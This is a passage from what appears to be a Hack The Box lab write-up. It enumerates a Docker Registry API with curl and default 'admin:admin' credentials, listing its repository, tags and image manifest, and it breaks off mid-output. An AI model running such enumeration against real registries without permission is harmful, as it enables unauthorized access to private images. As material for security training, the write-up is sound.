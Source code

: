 ![](/assets/images/htb-writeup-registry/api.png)

### Docker Registry
At this point we can read `Docker Registry` [API Specs](https://docs.docker.com/registry/spec/api/) to move furthur. Little bit googling helped me to find this awesome blog by `notsosecure` on [Anatomy of a hack: Docker Registry](https://www.notsosecure.com/anatomy-of-a-hack-docker-registry/).

Docker Images are stored in collections, known as a repository. A `registry` instance may contain several repositories. The list of available repositories is made available through the `catalog`. catalog for a given registry can be retrieved using `_catalog` endpoint.

```
curl --user "admin:admin" http://docker.registry.htb/v2/_catalog | python -m json.tool

{
    "repositories": [
        "bolt-image"
    ]
}
```
It shows that the `registry` contains one `repository` named `bolt-image`. In context of Docker Registry, a `repository` is basically a collection of related images, typically providing different versions (or say, `tags`) of the same service or the application. we can fin out the `tags` listed for the repository using `/REPO_NAME/tags/list` endpoint.
```
curl --user "admin:admin" http://docker.registry.htb/v2/bolt-image/tags/list | python -m json.tool

{
    "name": "bolt-image",
    "tags": [
        "latest"
    ]
}
```
we indentified that there is one tag named `latest` and we can download `manifest` tag using `/manifests/latest` endpoint. A single `manifest` is information about an `image`, such as layer, size and digest. The `docker manifest` command also gives users additional information  such  as the os and architecture the `image` was built for.
```
curl --user "admin:admin" http://docker.registry.htb/v2/bolt-image/manifests/latest | python -m json.tool

{
    "architecture": "amd64",
    "fsLayers": [
        {
            "blobSum": "sha256:302bfcb3f10c386a25a58913917257bd2fe772127e36645192fa35e4c6b3c66b"
        },
        {
            "blobSum": "sha256:3f12770883a63c833eab7652242d55a95aea6e2ecd09e21c29d7d7b354f3d4ee"
        },
        {
            "blobSum": "sha256:02666a14e1b55276ecb9812747cb1a95b78056f1d202b087d71096ca0b58c98c"
        },
```